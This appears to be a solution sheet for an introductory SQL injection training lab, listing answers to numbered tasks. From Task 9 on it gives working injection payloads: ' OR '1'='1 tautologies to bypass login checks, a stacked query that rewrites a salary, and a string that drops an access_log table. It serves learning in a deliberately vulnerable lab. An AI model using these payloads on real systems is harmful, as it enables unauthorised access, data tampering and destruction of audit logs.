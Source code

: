 # SQL INJECTION INTRO

## Task 2

selecting

```
 query : SELECT department FROM employees WHERE first_name='Bob'
```

## Task 3

updating

```
 query : UPDATE employees SET department='Sales' WHERE first_name='Tobi'

```

## Task 4

Adding column

```
 query : ALTER TABLE employees ADD phone varchar(20)
```

## Task 5

```
query: GRANT all ON grant_rights TO unauthorized_user
```

## Task 9

```
first: '
```

```
second: or
```

```
third: '1'='1
```

# Task 10

```
Login_count: 0
User_Id: 0 OR 1=1
```

# Task 11

Getting employees data. First field could be any.

```
Employee Name: STH
Authentication TAN: ' OR '1' = '1

```

# Task 12

Vulnarable second field, first could be any, used DML update query to set salary

```
Employee Name: STH
```

```
Authentication TAN: '; UPDATE employees SET salary=99999 WHERE first_name='John
```

# Task 13

string: '; DROP TABLE access_log;--
